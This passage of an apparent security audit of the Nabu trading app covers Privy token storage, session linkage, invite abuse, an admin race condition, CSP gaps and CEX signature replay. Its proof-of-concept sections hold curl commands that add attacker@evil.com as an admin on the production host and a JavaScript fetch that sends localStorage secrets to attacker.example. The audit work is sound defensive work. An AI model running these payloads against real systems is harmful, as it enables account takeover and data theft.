The `@privy-io/react-auth` SDK stores this access token and a longer-lived refresh token in `localStorage` (keys `privy:token` and `privy:refresh_token`) and in cookies that are not `HttpOnly`. This exposes them to any JavaScript running on the page. Enabling Privy's `HttpOnly` cookie sessions would store them out of reach of page scripts, and they'll be available to the backend through the usual `Cookie` header. However, that is a Privy App setting configured through the Privy dashboard, rather than a code option. Nabu has not enabled it: its public config reports `custom_api_url: null`, which the Privy SDK uses as the condition to switch from relying on `localStorage`. See Privy's guide on enabling cookies as the access token storage method: https://docs.privy.io/recipes/react/cookies.

```bash
$ curl -H 'privy-app-id: cml6l36rh00aak40cuf5q7y1p' https://auth.privy.io/api/v1/apps/cml6l36rh00aak40cuf5q7y1p
{ "name": "Nabu", "allowed_domains": ["https://app.nabu.pro", ...], "custom_api_url": null, ... }
```

The Nabu session itself is kept only in memory, not in browser storage, so this sort of problem does not apply to it.

### Impact

`localStorage` and non-`HttpOnly` cookies are readable by any script on the page, so an XSS bug, a compromised frontend dependency, or a malicious browser extension can exfiltrate both tokens. The access token logs the attacker in as the victim, and the refresh token (valid 30 days by default, https://docs.privy.io/authentication/user-authentication/tokens) lets them renew that session at will. Fixing the bug that leaked the tokens does not revoke them, so the attacker keeps access until they expire.

Since this issue on its own does not provide an actual exploitation path, despite the impact being **High**, the **Low** exploitability greatly decreases the severity of the issue.

### Recommendations

Enable cookie-based Privy token storage for the production Nabu Privy app, following the guide here: https://docs.privy.io/recipes/react/cookies.


## App sessions are not tied to Privy sessions, allowing a user to maintain access after Privy session/account deactivation

Privy access tokens are exchanged for app-specific sessions, which maintain their own TTL and revocation mechanisms. The Privy access token's `sid` attribute is required upon exchange during `/v1/auth/privy`, but is not used to link the app session to the Privy session. Further interactions with the app do not require the Privy access token to be present, meaning the Privy-side user/session management is ineffective. A possible solution would be to avoid issuing custom sessions for Privy users, relying fully on Privy authentication.

### Description

When a user signs in with Privy, `/v1/auth/privy` verifies the Privy access token and in exchange creates a Nabu-specific session, which is used to authenticate every subsequent request. After this exchange the Privy session is never consulted again by the authentication middleware or any other component.

The Privy access token names the session it belongs to in its `sid` claim. `VerifyAccessToken` ([fe/backend/internal/auth/privy/verify.go#L54](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/backend/internal/auth/privy/verify.go#L54)) requires that claim to be present, and returns the Privy session ID to the `/v1/auth/privy` handler, but it ignores it and reads only the Privy user ID from the result. The session Nabu records holds only its own identifier and expiry, with nothing tying it back to the Privy session it was issued from, so Nabu cannot correlate its sessions to Privy sessions even in principle.

Every authenticated request runs through the `requireAuth` middleware, whose entire token check is the `authenticate` function ([fe/backend/internal/httpapi/auth_required.go#L93](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/backend/internal/httpapi/auth_required.go#L93)):

```go
func (s *server) authenticate(r *http.Request) (address, jwtID string, ok bool) {
	h := strings.TrimSpace(r.Header.Get("Authorization"))
	if h == "" {
		return "", "", false
	}

	parts := strings.SplitN(h, " ", 2)
	if len(parts) != 2 || !strings.EqualFold(parts[0], "bearer") {
		return "", "", false
	}

	tok := strings.TrimSpace(parts[1])
	if tok == "" {
		return "", "", false
	}

	claims, err := jwt.ParseAndVerifyHS256(s.cfg.JWTSecret, tok)
	if err != nil {
		return "", "", false
	}

	active, err := s.st.SessionActive(r.Context(), claims.JWTID)
	if err != nil || !active {
		return "", "", false
	}

	return claims.Subject, claims.JWTID, true
}
```

The token signature is checked against Nabu's own secret, and the session is confirmed to be active based on Nabu's own session store. There is no call to Privy here or anywhere else on the request path to at least attempt to verify the linked Privy user state.

### Impact

Privy-side control over a user (revoking the session, logging them out, deactivating the account) has no effect on a Nabu session that has already been issued. The holder keeps full access until the session reaches its own expiry, up to 24 hours.

This issue is trivially exploitable, however, the impact itself is limited only to the attacker's own account, which can additionally be deleted or have its session revoked by the Nabu operators on the database level, making the severity **Low**.

### Recommendations

Link Nabu application-level sessions to the actual Privy session that the user logged in with, and re-verify this session status, possibly with a TTL to avoid making requests to Privy on each API call. Ideally, however, Nabu session management should be entirely swapped out for Privy sessions. Nabu app sessions hold no special data, so fully embracing Privy sessions would allow Nabu to properly rely on Privy's user and session management features without additional crutches. As Privy is the only properly supported authentication method, the other being the legacy SIWE authentication, there should be no downsides to this.


## Multi-use invite codes can be exhausted through legacy SIWE accounts with no resistance like in the case of Privy accounts

A publicly-shared multi-use invite code can be easily exhausted by an attacker who spam-creates a bunch of new accounts through the SIWE authentication flow, redeeming the invite code for each one. This attack is not possible through the newer Privy auth flow since it requires using distinct Google accounts for each user, which acts as resistance that is simply not present for SIWE accounts.

### Description

Access to Nabu is intended to be gated behind invite codes (right now it isn't, see issue [04-HIGH-invitation-bypass](#invite-activation-is-not-enforced-by-the-api-granting-any-user-full-platform-access)). Each code is created with a maximum number of uses, and a code with more than one use is supposedly meant to be shared so that several distinct people can each redeem it. A signed-in user redeems a code through `/v1/invite/redeem`.

The redeem handler ([fe/backend/internal/httpapi/invite.go#L109](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/backend/internal/httpapi/invite.go#L109)) lets any signed-in user redeem a code, and each account can redeem only once. The endpoint is also rate limited per account. Neither limit prevents an attacker from redeeming a code repeatedly by using a fresh account each time.

Creating accounts over the SIWE flow is free. `/v1/auth/challenge` followed by `/v1/auth/verify` ([fe/backend/internal/httpapi/auth.go#L85](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/backend/internal/httpapi/auth.go#L85)) returns a session for any EVM address that signs the challenge message, so an attacker generates a keypair locally and signs the challenge, creating a new Nabu account through each authentication. There is no on-chain interaction, no Privy account, and no external identity to obtain, and neither endpoint is rate limited.

An attacker who learns a shared multi-use code can therefore create as many SIWE accounts as the code has remaining uses and redeem the code once from each, hitting the use count limit. The Nabu UI itself signs users in through Privy rather than SIWE, which is deprecated and isn't supported properly across all logic throughout the app. The Privy authentication method is backed by a Google account, so creating many Nabu accounts requires many Google accounts, which is a real barrier to bulk registration. The redeem handler enforces no equivalent requirement of its own, so reaching it over SIWE removes the cost that would otherwise make exhausting a multi-use code impractical.

### Impact

An attacker who obtains a shared multi-use invite code can use up all of its remaining redemptions from cheaply created SIWE accounts, preventing the intended recipients from activating their accounts with it. This effectively breaks the multiple use feature for invite codes.

Realistically speaking, the impact from this issue would be relatively low, as Nabu operators would see that shared multi-use invite codes are being quickly exhausted. Besides exhausting the uses of the invite codes, this issue does not provide any additional impact. Considering this and its ease of exploitation, the overall severity is **Low**.

### Recommendations

Allow only accounts with a proper identity attached to them to redeem invite codes. Right now that means checking that the Nabu account redeeming the invite code has a Privy account linked to it.


## Admin authorization enforced non-atomically on admin operations (TOCTOU)

A race condition between the admin role authorization and the actual administrative operation execution allows an admin user targeted for removal to maintain their own admin status.

### Description

`requireAdmin` ([fe/backend/internal/httpapi/invite.go#L23-L48](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/backend/internal/httpapi/invite.go#L23-L48)) reads `GetPrivyUser` and `IsAdmin` in two separate statements, then calls `next(w, r)`. The downstream write handlers (`adminAddAdmin`, `adminRemoveAdmin`, `adminInviteCreate`, `adminInviteDeactivate`) then perform their write as a separate statement, with no enclosing transaction.

`db.SetMaxOpenConns(1)` ([fe/backend/internal/store/store.go#L49](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/backend/internal/store/store.go#L49)) limits the backend to a single database connection, so its statements run one at a time, but the admin check and the write are separate statements. Between request A's `IsAdmin` and A's write, a concurrent `RemoveAdmin(A)` from request B can commit, and A's write commits anyway.

This is independent of the single-compromised-admin-account finding ([19-INFO-admin-compromise-takeover](#single-compromised-admin-account-allows-takeover-of-the-entire-admin-set)), which covers the absence of quorum on the write itself.

### Impact

Exploiting this needs two admin sessions, with A's request firing as B removes A. A then completes one admin-plane write after losing admin rights. `AddAdmin(attacker@evil.com)` re-establishes A's control through the new admin, so the single write becomes durable persistence. A could instead use `RemoveAdmin(B)` to retaliate or `adminInviteCreate` to mint codes.

The race window is sub-millisecond, and A must anticipate their own removal, which is realistic mainly around a planned offboarding where A pre-stages the write. We therefore set the severity to **Low**.

### Proof of Concept

```bash
ADMIN_JWT_A="..."   # admin about to be removed
ADMIN_JWT_B="..."
BASE="https://app.nabu.pro"

curl -sX POST "$BASE/api/backend/v1/admin/admins" \
  -H "Authorization: Bearer $ADMIN_JWT_A" -H "Content-Type: application/json" \
  -d '{"email":"attacker@evil.com"}' &

curl -sX DELETE "$BASE/api/backend/v1/admin/admins/a@company.com" \
  -H "Authorization: Bearer $ADMIN_JWT_B" &

wait

curl -sX GET "$BASE/api/backend/v1/admin/admins" \
  -H "Authorization: Bearer $ADMIN_JWT_B" | jq '.admins[].email'
```

If `attacker@evil.com` is present while `a@company.com` is absent, the race was won. After the fix, A's request either commits before B's, which is no race, or it is re-validated inside the transaction and returns `403`.

### Recommendations

Re-validate `IsAdmin` inside a `BEGIN IMMEDIATE` transaction in each admin write handler (`adminAddAdmin`, `adminRemoveAdmin`, `adminInviteCreate`, `adminInviteDeactivate`), so the check and the write are atomic. With `SetMaxOpenConns(1)`, a concurrent removal then either commits before the in-transaction check, so A gets a `403`, or after A's write, so there is no race. `requireAdmin` stays as a cheap early reject, with the authoritative decision made inside the transaction.


## Production and staging environments reuse the same Privy app

https://auth.privy.io/api/v1/apps/cml6l36rh00aak40cuf5q7y1p returns `allowed_domains` including `https://app.flerken.space` which is deployed through `agentv3_1_temp` branch, while prod is deployed through `agentv3_1`, which was confirmed using the https://app.flerken.space/api/backend/healthz endpoint returning the deploy commit. The Privy user base is reused for both applications, meaning the staging env has access to prod users through the same secret key. Staging should be deployed using a separate Privy App with whitelisted user access (not on the Nabu level, but on the Privy level itself).

### Description

Nabu runs two public deployments that are backed by a single Privy app. The frontend hardcodes the app ID `cml6l36rh00aak40cuf5q7y1p` ([fe/wallet/src/config/app.ts#L3](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/wallet/src/config/app.ts#L3)), and the backend reads the matching app credentials from its environment ([fe/backend/internal/config/config.go#L269](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/backend/internal/config/config.go#L269)). The app's public config lists both the production origin `https://app.nabu.pro` and the staging origin `https://app.flerken.space` in its `allowed_domains`:

```bash
$ curl -H 'privy-app-id: cml6l36rh00aak40cuf5q7y1p' https://auth.privy.io/api/v1/apps/cml6l36rh00aak40cuf5q7y1p
{ "name": "Nabu", "allowed_domains": ["https://app.nabu.pro", "https://localhost:3000", "https://nabu.pro", "https://www.app.nabu.pro", "https://www.nabu.pro", "https://app.flerken.space"], "verification_key": "-----BEGIN PUBLIC KEY-----...", ... }
```

The two origins are independently operated deployments, each with its own backend and database. The `/healthz` endpoint returns the deployed commit ([fe/backend/internal/httpapi/handshake.go#L71](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/backend/internal/httpapi/handshake.go#L71)), and the two report different commits, the production origin `app.nabu.pro` on the `agentv3_1` branch and the staging origin `app.flerken.space` on the `agentv3_1_temp` branch:

```bash
$ curl -H 'authorization: Bearer <prod user session>' https://app.nabu.pro/api/backend/healthz
{ "commit": "abc70078bbbb684d685ee87fb74947805076b6c9", "status": "ok" }

$ curl -H 'authorization: Bearer <staging user session>' https://app.flerken.space/api/backend/healthz
{ "commit": "72d1b4ebbfef3f1ab898d38a6e4f39736d3ec049", "status": "ok" }
```

Each deployment keeps its own Nabu accounts and sessions in its own database. A Nabu session is an HS256 JWT that the backend validates against its own session store, so a session issued by one deployment does not authenticate against the other. At the Nabu level the two are isolated.

They are not isolated at the Privy level. A Privy app owns a single user pool, a single set of embedded trading wallets, and a single app secret, and Nabu points both deployments at the same app. As a result the same Privy users, including the custodial embedded wallets that hold their funds, are the user base of both deployments, and there is no separate staging user pool. Both deployments also hold the same app secret, which is the credential that authorizes API access to the app. The backend and its Privy gateway present the app ID and secret as HTTP basic auth on privileged Privy calls ([privy_gateway/src/main.rs#L539](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/privy_gateway/src/main.rs#L539)) to read user profiles, manage the trading policies that bound the delegated signer, and act through the Nabu signer (`b6ki31cv6z4rirl6axukqwv0`, [fe/wallet/src/config/app.ts#L4](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/wallet/src/config/app.ts#L4)) that co-signs trades on users' wallets. Either deployment therefore holds the same Privy-side access to the same production users and their wallets.

### Impact

Because both deployments hold the same app secret and operate on the same Privy users, the production user base and the custodial wallets behind it are reachable from two independent deployments rather than one, so a compromise of either deployment can read production users' Privy profiles, operate their embedded wallets, and drive the delegated Nabu signer to sign trades within the limits of each wallet's policy. Any activity run against the staging deployment also acts on those real production users and their wallets rather than on isolated test accounts.

Because exploiting this first requires compromising one of the deployments or its credentials, and the shared configuration does not by itself expose user funds or data, we set the severity to **Informational**.

### Recommendations

Deploy staging through its own Privy app with separate credentials and an isolated user pool, and restrict access to that app at the Privy level (for example through Privy's allowlist) so staging cannot reach production users or hold production signing authority. Keep only the production origins on the production app's `allowed_domains` and remove `https://app.flerken.space`.


## Wallet SPA Content-Security-Policy does not mitigate XSS

The wallet SPA is served with a `Content-Security-Policy` that allows inline scripts, `eval`, scripts from a public CDN, and connections to any HTTPS host. With those allowances, the policy does nothing to limit a script injected through a later XSS bug. Because the SPA keeps the user's session and Privy tokens in the browser, that injected script can take over the account. No such bug exists today, so this is a defense-in-depth gap.

### Description

The deployed `Content-Security-Policy` has four directives that weaken it. `'unsafe-inline'` and `'unsafe-eval'` in `script-src` allow injected inline scripts and `eval` to execute. `https://cdn.jsdelivr.net` in `script-src` is a public CDN serving arbitrary npm packages, so any host on the allowlist can serve attacker code. `connect-src 'https:'` permits exfiltration to any HTTPS endpoint. `frame-ancestors 'self'` should be `'none'`, since the SPA is not framed in production.

The in-repo edge configs ([fe/wallet/nginx/default.conf](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/wallet/nginx/default.conf), [fe/wallet/caddy/Caddyfile](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/wallet/caddy/Caddyfile)) and [fe/wallet/index.html](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/wallet/index.html) do not set the header. It is set by infrastructure outside the repository. `X-Content-Type-Options: nosniff` is also absent.

No DOM-injection sink is confirmed today. Chat content goes through `ReactMarkdown` ([fe/wallet/src/modules/chat/components/ChatPanel.tsx#L232](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/wallet/src/modules/chat/components/ChatPanel.tsx#L232)) without `rehype-raw` or `allowDangerousHtml`, and there are no `dangerouslySetInnerHTML` or `innerHTML` callers.

### Impact

If an XSS bug is introduced later, the current CSP would not limit what the injected script can do. The SPA runs the entire client side of Nabu and keeps the user's session and Privy tokens in the browser, so injected code can read them and act as the user, taking over the account.

No exploitation path is confirmed today, so we set the severity to **Informational**.

### Recommendations

Replace the deployed CSP with a strict policy that allows only nonce-tagged scripts to run, and add `X-Content-Type-Options: nosniff` on the same response. Insert a fresh per-request nonce into `index.html`, from the Go backend or whichever edge layer sets the header today. With `strict-dynamic`, CSP3 browsers ignore the host allowlist and run only the nonce-tagged scripts and the scripts they load. `connect-src 'self'` already covers `/api/backend/*` and `/api/prices`, which Caddy proxies on-origin ([fe/wallet/caddy/Caddyfile](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/wallet/caddy/Caddyfile)), so only the Privy SDK calls go off-origin.

```
Content-Security-Policy:
  default-src 'none';
  script-src 'nonce-{{nonce}}' 'strict-dynamic';
  style-src 'self' 'nonce-{{nonce}}';
  img-src 'self' data: https:;
  font-src 'self' data:;
  connect-src 'self' https://*.privy.io;
  frame-ancestors 'none';
  base-uri 'none';
  form-action 'self';
X-Content-Type-Options: nosniff
```


## Backend API responses lack Content-Security-Policy: sandbox

The Nabu backend serves its `/v1/*` API responses with no security headers, most notably no `Content-Security-Policy: sandbox`. Nothing is exploitable today, so this is a defense-in-depth gap that would matter only if a future endpoint returned attacker-controlled content a browser could render as a document.

### Description

The backend runs behind nginx, configured by [fe/backend/nginx/prod.conf](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/backend/nginx/prod.conf), which sets no security headers. The Go handlers under `/v1/*` set none either ([fe/backend/internal/httpapi/handler.go](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/backend/internal/httpapi/handler.go)). `writeJSON` ([fe/backend/internal/httpapi/json.go#L20-L21](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/backend/internal/httpapi/json.go#L20-L21)) does set `Content-Type: application/json; charset=utf-8` on every JSON response, so a browser will not sniff the JSON body as another type today. But none of the responses carry `Content-Security-Policy: sandbox`, `X-Content-Type-Options: nosniff`, or `Cross-Origin-Resource-Policy`.

`Content-Security-Policy: sandbox` with no `allow-*` tokens is the response-level equivalent of a full CSP for an API that serves no HTML. If a browser is made to render a `/v1/*` URL as a top-level document, through an open redirect, an attacker page's `<meta http-equiv="refresh">`, or `window.open`, the header makes the response run with scripts, forms, plugins, and top-level navigation all disabled, regardless of its `Content-Type`.

### Impact

There is no exploit path today. Every `/v1/*` handler returns JSON through `writeJSON` with a correct `Content-Type`, so a browser has no reason to render any response as a document.

The header matters if a later change breaks that assumption, for example a handler that returns attacker-controlled bytes without going through `writeJSON`, or one that sets a content type a browser will sniff into HTML. The `/v1/*` API is served from the same `app.nabu.pro` origin as the frontend, so a document rendered from such an endpoint runs scripts in that origin. The same origin holds the Privy access and refresh tokens in `localStorage`. A script in that document can read those tokens and replay them to sign in as the victim, which gives the attacker a full account takeover.

Reaching this state needs a future regression to introduce the injection, so on its own the finding stays **Informational**.

### Recommendations

Set the headers at [fe/backend/nginx/prod.conf](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/backend/nginx/prod.conf) inside the `location /` block:

```
add_header Content-Security-Policy "sandbox" always;
add_header X-Content-Type-Options "nosniff" always;
add_header Cross-Origin-Resource-Policy "same-origin" always;
```

Setting them in nginx rather than in the Go handlers keeps coverage uniform across error pages, 404s, and any future endpoint that forgets to set them. The `always` flag keeps the headers present on non-2xx responses too.


## Single compromised admin account allows takeover of the entire admin set

A single administrator can manage the entire admin set with no restrictions. Compromising one Nabu admin account therefore compromises every admin capability and lets the attacker remove all other admins.

### Description

`adminAddAdmin` ([fe/backend/internal/httpapi/invite.go#L480-L505](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/backend/internal/httpapi/invite.go#L480-L505)) accepts any string containing `@` and persists it via `s.st.AddAdmin` ([fe/backend/internal/store/invite.go#L74-L81](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/backend/internal/store/invite.go#L74-L81), a plain `INSERT OR IGNORE`). `adminRemoveAdmin` ([fe/backend/internal/httpapi/invite.go#L507-L538](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/backend/internal/httpapi/invite.go#L507-L538)) deletes any admin other than the caller in one call. There is no quorum, no out-of-band confirmation, no verification of the new address, and no rate limit. The only limiter, `s.inviteLimiter` ([fe/backend/internal/httpapi/invite.go#L117](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/backend/internal/httpapi/invite.go#L117)), is used only by `inviteRedeem`.

The seed admin set in [fe/backend/internal/store/schema.sql#L160-L164](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/backend/internal/store/schema.sql#L160-L164) is five `@pelagos.network` emails, and compromising any one of them is enough for the full chain.

### Impact

The only prerequisite is one valid admin JWT. With it, an attacker can run the following chain:

1. Add `attacker@evil.com` as an admin through `/v1/admin/admins`. The grant takes effect on the next request that resolves to that email.
2. Log in with the Google account for that address to obtain a JWT that now carries admin rights.
3. Delete each remaining admin through `/v1/admin/admins/{email}`, which locks the legitimate team out.
4. Mint and revoke invite codes through the `/v1/admin/invite-codes` endpoints.

Once all seed admins are removed, no account can re-add an admin through the application, so recovery requires direct access to the production database.

The prerequisite for this chain, a compromised admin JWT, is already a more serious compromise on its own. The finding only covers the missing defense in depth, so we set the severity to **Informational**.

### Proof of Concept

```bash
ADMIN_JWT="..."
BASE="https://app.nabu.pro"

curl -sX POST "$BASE/api/backend/v1/admin/admins" \
  -H "Authorization: Bearer $ADMIN_JWT" -H "Content-Type: application/json" \
  -d '{"email":"attacker@evil.com"}'
# {"success":true,"email":"attacker@evil.com"}

curl -sX DELETE "$BASE/api/backend/v1/admin/admins/<other-admin@pelagos.network>" \
  -H "Authorization: Bearer $ADMIN_JWT"
# {"success":true}
```

### Recommendations

1. Harden the process of adding an admin. When a new admin is added, notify all existing admins, for example by email, and delay the new privileges by a cooldown, for example one hour or one day, before they take effect. This gives the existing admins time to react and remove the entry if the wrong address was added.
2. Require an N-of-M quorum on `adminAddAdmin` and `adminRemoveAdmin`. Persist proposals in `admin_change_requests` and apply them only after N-1 other admins approve. Run the apply step inside a single database transaction that re-validates the proposing admin's status, which also closes the admin-check TOCTOU on the same handlers.
3. Rate-limit the admin write endpoints. Apply `s.inviteLimiter`, or a stricter limiter, to `adminAddAdmin`, `adminRemoveAdmin`, `adminInviteCreate`, and `adminInviteDeactivate`. This limits how fast a compromised admin can rewrite the admin set.


## XSS allows long-term read of a victim's CEX balances by replaying the stored signature

When a user connects a centralized exchange account, the wallet SPA stores the signed `get_balances` request in `localStorage` and replays the same signature on every portfolio refresh. The signature has no nonce or expiry, so a script injected through an XSS bug could exfiltrate the stored values and keep reading the victim's CEX balances until the handle is revoked. No XSS bug is confirmed today, so this depends on one being introduced.

### Description

When a user connects a centralized exchange account, the Privy embedded wallet signs a `get_balances` payload, and the SPA stores three values in `localStorage`: the wallet address (`cex_sender`), the signature (`cex_signature`), and the signed payload hash (`cex_payload_hash`). They are set in [fe/wallet/src/modules/settings/components/ExchangeAccount.tsx#L381-L383](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/wallet/src/modules/settings/components/ExchangeAccount.tsx#L381-L383) and again in [fe/wallet/src/modules/portfolio/components/CexRefreshPortfolioButton.tsx#L60-L62](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/wallet/src/modules/portfolio/components/CexRefreshPortfolioButton.tsx#L60-L62). The SPA also caches the connected handle list under `cex_handles_cached` ([fe/wallet/src/modules/trading/utils/cexHandles.ts#L5](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/wallet/src/modules/trading/utils/cexHandles.ts#L5)).

On every portfolio refresh, `fetchPortfolioSnapshot` reads these values and sends them as query parameters to `/v1/portfolio` ([fe/wallet/src/modules/portfolio/actions/fetchPortfolioSnapshot.ts#L19-L43](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/wallet/src/modules/portfolio/actions/fetchPortfolioSnapshot.ts#L19-L43)), and the backend reads them to look up the CEX balances ([fe/backend/internal/httpapi/portfolio.go#L576-L599](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/backend/internal/httpapi/portfolio.go#L576-L599)). The signature is over a fixed `get_balances` payload with no nonce and no expiry, so it works on every refresh until the handle is revoked.

### Impact

Obtaining the victim's stored CEX values, for example through an XSS in the wallet SPA, is enough to read their CEX balances. The `/v1/portfolio` handler forwards `cex_sender`, `cex_signature`, and `cex_payload_hash` straight to the `cex_getBalances` appchain call and never checks that they belong to the authenticated session user ([fe/backend/internal/httpapi/portfolio.go#L259-L302](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/backend/internal/httpapi/portfolio.go#L259-L302)). The signature is self-authenticating, so an attacker replays the victim's values from their own Nabu account. Because the signature covers only the `get_balances` action and has no expiry, the reads keep working until the handle is revoked. Order placement is not exposed, since it requires a separate wallet-signed appchain transaction.

Exploitation depends on a separate, unconfirmed XSS, and the result is limited to reading CEX balances, so we set the severity to **Informational**.

### Proof of Concept

Exfiltrate the stored values from the victim, from any XSS context on the SPA origin:

```js
fetch('https://attacker.example/x', { method: 'POST', body: JSON.stringify({
  s: localStorage.getItem('cex_sender'),
  g: localStorage.getItem('cex_signature'),
  p: localStorage.getItem('cex_payload_hash'),
  h: localStorage.getItem('cex_handles_cached'),
})});
```

Then replay them continuously from our own environment, with our own Nabu session:

```bash
curl -sX GET "$BASE/api/backend/v1/portfolio?range=7d&\
cex_handle_id=$VICTIM_HANDLE&cex_sender=$VICTIM_SENDER&\
cex_signature=$VICTIM_SIG&cex_payload_hash=$VICTIM_PHASH" \
  -H "Authorization: Bearer $SESSION"
```

### Recommendations

Keep the signed `get_balances` values (`cex_sender`, `cex_signature`, `cex_payload_hash`) and the cached handle list (`cex_handles_cached`) out of `localStorage`, holding them in `sessionStorage` or memory, and re-sign the `get_balances` request through the Privy embedded wallet on each page load. For defense in depth, bind the signed payload to a short-lived server-issued nonce, for example from a `/v1/cex/challenge` endpoint with a roughly 60-second TTL that rejects reuse, so a leaked signature cannot be replayed.


## Legacy SIWE accounts maintain no identity guarantee which the new Privy authentication flow enforces

The backend has two sign-in flows. The production flow uses Privy, which requires a Google login. The other is the legacy SIWE flow (`/v1/auth/challenge`, then `/v1/auth/verify`) that gives a session to anyone who can sign a message with a wallet key. A SIWE account has no Google login or any other identity behind it, leaving any actions done by a user with such an account untraceable.

### Description

On the one hand, Privy is configured for Nabu with Google as the identity provider:

```bash
$ curl -H 'privy-app-id: cml6l36rh00aak40cuf5q7y1p' https://auth.privy.io/api/v1/apps/cml6l36rh00aak40cuf5q7y1p
{ "name": "Nabu", ..., "google_oauth": true, ... }
```

On the other hand, Nabu still supports the legacy SIWE authentication flow, which only checks a signature by a wallet not linked to any identity. `/v1/auth/verify` creates a Nabu account linked to the signing address, with no email and no Privy link ([fe/backend/internal/store/user_identities.go#L80](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/backend/internal/store/user_identities.go#L80)). Creating a new key pair is free, so an attacker can create any number of accounts. The SIWE routes are registered in production ([fe/backend/internal/httpapi/handler.go#L107](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/backend/internal/httpapi/handler.go#L107)), even though the frontend never calls them.

Currently, a SIWE account can reach any functionality that does not require a Privy account/wallet link: chat, the strategy-generation agent, portfolio reads, and invite redemption. Strategy management, and admin functionality require a Privy account, so they are currently out of scope for access through an anonymous SIWE account.

### Impact

This issue is not exploitable on its own. Its effect is that any malicious action carried out through a SIWE account, including the exploitation of other vulnerabilities, cannot be attributed to the person responsible, and Nabu has no identity to hold them accountable. This justifies the **Informational** severity level.

### Recommendations

Consider fully deprecating and removing the already legacy SIWE authentication flow as it allows fully anonymous use of Nabu with no meaningful fix that can be applied.


## Sign out does not wait for the Privy logout to finish, so a transient failure can silently sign the user back in

During sign out, the app-specific token is revoked first, transitioning the application into a logged out state. The Privy session is logged out only on the frontend, and the logout() call isn't awaited before performing the app-specific revocation and before navigating the UI to a logged out state. A transient failure leaves the user's Privy session active with no option to deactivate it. Further use of the app can end up logging the user back into the same account, bypassing the proper login flow.

### Description

Sign out is handled by the `signOut` callback in [fe/wallet/src/modules/auth/context/AuthProviderPrivy.tsx#L130-L150](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/wallet/src/modules/auth/context/AuthProviderPrivy.tsx#L130-L150). It is the single sign out path in the app, triggered both by the explicit log out control and automatically whenever a backend request returns 401. The relevant steps happen in this order:

```tsx
const existing = sessionStore.load();
if (existing?.token) {
  void authLogout(existing.token).catch(() => {});
}
sessionStore.clear();
// ...local state cleared...
setState({ status: 'signed_out' });
void logout().catch(() => {});
```

The backend session token is revoked first through `authLogout`, then the local session is cleared and the UI is moved to the signed out state. Privy's own `logout()` runs last and is the only call that ends the Privy session. The code does not wait for it to finish and ignores any error it returns, so the UI reaches the signed out state whether or not the Privy session actually ended. If `logout()` fails, for example on a network error, nothing retries it and nothing tells the user.

Signing in again is automatic. A separate effect re-exchanges the current Privy access token for a new backend session whenever Privy reports the user as still authenticated ([fe/wallet/src/modules/auth/context/AuthProviderPrivy.tsx#L102-L128](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/wallet/src/modules/auth/context/AuthProviderPrivy.tsx#L102-L128)). Sign out sets a flag that blocks this effect, but the flag only applies to the current page and is gone after a reload. So once the page reloads, if the Privy session is still active because `logout()` failed, the effect calls `authPrivy` again and signs the user back into the same account without the Google login step.

### Impact

A user who signs out can be left with an active Privy session and no sign that the logout failed. On a shared or public computer, the next page load can silently sign back into the same account, giving the next person access to the previous user's account without going through the login flow.

This only affects the current user, and even somehow triggering it remotely will not grant the attacker any additional privileges, which is why we rate the finding **Informational**.

### Recommendations

